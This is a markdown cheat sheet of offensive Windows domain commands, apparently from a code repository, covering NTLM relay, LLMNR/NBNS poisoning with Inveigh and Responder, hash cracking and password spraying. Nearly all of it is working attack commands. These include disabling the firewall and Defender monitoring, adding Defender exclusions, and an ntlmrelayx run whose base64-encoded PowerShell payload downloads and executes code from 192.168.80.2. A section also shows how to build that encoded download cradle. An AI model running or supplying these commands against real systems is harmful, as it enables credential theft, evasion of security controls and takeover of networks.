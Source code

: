 ## NTLM Relay

### Disable Protection
```powershell
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
Set-MpPreference -DisableRealtimeMonitoring $true -MAPSReporting 0 -SubmitSamplesConsent 0
```

### Stop SMB Service
```powershell
sc stop lanmanserver
sc config lanmanserver start=disabled
```

### Execute Inveigh
```powershell
powershell -exec bypass
Import-Module .\Inveigh.ps1
Invoke-Inveigh -ConsoleOutput Y -mDNS Y -LLMNR Y -NBNS Y -HTTP N -SMB N -IP <attackerIP>
```

### Execute NTLMRelayX
```powershell
python3 -m pip install impacket pyreadline dsinternals
python3 ntlmrelayx.py -smb2support -debug -tf targets.txt -of hashes.txt -c "powershell.exe -nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACcAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AOAAwAC4AMgA6ADgAMAAvAGEAJwApACkA"
```

### Inveigh MITM
```powershell
Invoke-Inveigh -ConsoleOutput Y -mDNS Y -LLMNR Y -NBNS Y -HTTPS Y -Proxy Y -IP <attackerIP>
Watch-Inveigh
Stop-Inveigh
Clear-Inveigh
Get-Inveigh -NTLMv2 -Session -Enumerate
```

### Responder
```powershell
python3 Responder.py -I eth0
```

### Hashcat
```powershell
hashcat -m 5600 -a 3 hash.txt
```

### Windows Defender
```powershell
netsh advfirewall show all

netsh interface portproxy show v4tov4
netsh interface portproxy delete v4tov4 listenport=445 listenaddress=0.0.0.0
netsh interface portproxy add v4tov4 listenport=445 listenaddress=0.0.0.0 connectaddress=192.168.80.2 connectport=445

Get-MpComputerStatus | findstr True
Get-MpComputerStatus | findstr False
Get-MpPreference | select *Exclusion*

Start-MpScan -ScanType CustomScan -ScanPath "C:\Users\user\Downloads"

Set-MpPreference -ExclusionPath C:\Users -ExclusionExtension docx
Remove-MpPreference -ExclusionPath C:\Users -ExclusionExtension docx

Set-MpPreference -DisableRealtimeMonitoring $false -MAPSReporting 2 -SubmitSamplesConsent 1
```

### SMB Service
```powershell
sc config lanmanserver start=auto
sc start lanmanserver
sc query lanmanserver
sc qc lanmanserver
```

### Powershel Encoding
```powershell
$str = "IEX ((new-object net.webclient).downloadstring('http://192.168.80.2:80/a'))"
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
```

## Password Spraying
```powershell
powershell -exec bypass
Import-Module .\PowerView.ps1
Import-Module .\DomainPasswordSpray.ps1

Get-DomainPolicy | select -ExpandProperty systemaccess

Get-DomainUser | ? { $_.badpwdcount -lt 2 -and $_.useraccountcontrol -notmatch 'disable'} | foreach { $_.samaccountname } > users.txt

Invoke-DomainPasswordSpray -UserList .\users.txt -Password P@ssw0rd -Force
```
